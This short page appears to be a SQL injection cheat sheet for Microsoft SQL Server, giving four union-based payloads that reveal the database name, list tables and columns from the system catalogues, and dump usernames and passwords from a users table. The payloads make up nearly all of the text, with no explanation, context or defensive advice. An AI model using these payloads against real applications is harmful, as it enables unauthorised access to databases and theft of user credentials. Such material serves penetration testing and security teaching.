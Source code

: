 
Get database
`10' union select 1,(select DB_NAME()),3,4,5,6-- -`

Get tables
`10' union select 1, (select string_agg(name, ',') name from databasename..sysobjects where xtype= 'U'),3,4,5,6-- -`

Get columns
`10' union select 1,name,3,4,5,6 from syscolumns where id =(select id from sysobjects where name = 'tablename')-- -`

Get fields (e.g., usernames and passwords from users table)
`10' union select 1,concat(username, ' ', password),3,4,5,6 FROM users-- -`

